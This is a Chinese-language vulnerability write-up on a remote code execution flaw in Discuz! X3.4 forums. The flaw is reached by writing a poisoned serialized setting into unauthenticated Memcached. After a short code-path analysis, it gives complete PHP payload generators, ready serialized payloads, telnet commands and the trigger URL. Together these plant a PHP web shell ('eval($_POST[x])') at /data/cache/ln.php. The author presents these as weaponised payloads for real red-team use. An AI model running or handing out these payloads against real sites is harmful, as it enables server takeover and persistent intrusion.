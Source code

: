 ```yaml
---
title: "Discuz x3.4 Memcached未授权访问导致的rce"
id: zhfly2876
---
```


# Discuz! X3.4 Memcached未授权访问导致的rce

## 一、漏洞简介

这个漏洞大致利用过程是这样的：利用discuz!的ssrf漏洞，利用gopher协议写入payload到memcached，然后请求特定链接导致代码执行漏洞。

## 二、漏洞影响

*   <= x3.4

*   windows

*   php>5.3+php-curl<=7.54

*   DZ开放在80端口

## 三、复现过程

### 漏洞分析

Dz 整合 Memcache 配置成功后，默认情况下网站首页右下角会出现`MemCache On`的标志：

![image](../img/93b92ad9102837854f7b8dc19754955d.png)

漏洞利用有两个版本，一个是老版本，一个是新版本，discuz！虽然已经是x3.4，代码也发生了变化，漏洞确是任然没有修复。

漏洞利用代码流程逻辑：

访问：

```
forum.php?mod=ajax&inajax=yes&action=getthreadtypes 
```

```
./source/module/forum/forum_ajax.php 
```

![image](../img/f8347f0dffaed17f8fa3323721fdf9a4.png)

```
./template/default/common/footer_ajax.htm 
```

![image](../img/614d883357deb3d777a17a94464bc298.png)

```
./source/function/function_core.php 
```

![image](../img/7e71a7c632c637cb70cd2cc0cc958783.png)

```
./source/function/function_core.php 
```

![image](../img/6900fc91f23ae32c89dbef83d18c59be.png)

最后利用`preg_replace`函数`/e`参数的代码执行特性完成了漏洞利用的全部过程。

以上是老版本代码，在网上已经有一些分析了，在这里简述一些，重点是payload的完整性使用。网上文章大部分在payload部分都只是验证性演示。作为一名红队渗透测试人员，验证性payload肯定是不能再实际渗透测试活动中使用的。

### 漏洞复现

***1 老版本漏洞利用流程：***

生成payload

```
<?php
$payload['output']['preg']['search']['plugins']= "/.*/e";
$payload['output']['preg']['replace']['plugins']= "file_put_contents('./data/cache/ln.php','<?phpeval(\$_POST[x]);?>');";
$payload['rewritestatus']['plugins']= 1;
echoserialize($payload); 
```

```
a:2:{s:6:"output";a:1:{s:4:"preg";a:2:{s:6:"search";a:1:{s:7:"plugins";s:5:"/.*/e";}s:7:"replace";a:1:{s:7:"plugins";s:68:"file_put_contents('./data/cache/ln.php','<?phpeval($_POST[x]);?>');";}}}s:13:"rewritestatus";a:1:{s:7:"plugins";i:1;}} 
```

然后telnet链接memcached

```
telnet 1.1.1.1 11211 
```

```
set xxxxxx_setting 1 0 yyy    //xxxx为前缀，discuz定义的，可以使用stats cachedump 命令查看。yyy为payload长度。 
```

![image](../img/a4a760e2c882a43659be202157beffd4.png)

最后访问**forum.php?mod=ajax&inajax=yes&action=getthreadtypes**

shell生成**/data/cache/ln.php**

***2 新版本漏洞利用流程***

生成payload有点变化(ps:只是少了一个e)

```
<?php
$payload['output']['preg']['search']['plugins']= "/.*/";
$payload['output']['preg']['replace']['plugins']= "file_put_contents('./data/cache/ln.php','<?phpeval(\$_POST[x]);?>');";
$payload['rewritestatus']['plugins']= 1;
echoserialize($payload); 
```

```
a:2:{s:6:"output";a:1:{s:4:"preg";a:2:{s:6:"search";a:1:{s:7:"plugins";s:4:"/.*/";}s:7:"replace";a:1:{s:7:"plugins";s:68:"file_put_contents('./data/cache/ln.php','<?phpeval($_POST[x]);?>');";}}}s:13:"rewritestatus";a:1:{s:7:"plugins";i:1;}} 
```

![image](../img/31b373440e8bb3fee492e7c4b23795d9.png)

访问:**forum.php?mod=ajax&inajax=yes&action=getthreadtypes**

![image](../img/8cf81cc83acf647087fd785195733d33.png)

最后一定要恢复缓存

Delete Vtfbsm_setting

成功写入文件

![image](../img/1c72c2b5ba7c67ce3e7ec7da3f1165a3.png)

## 参考链接

> https://xz.aliyun.com/t/2018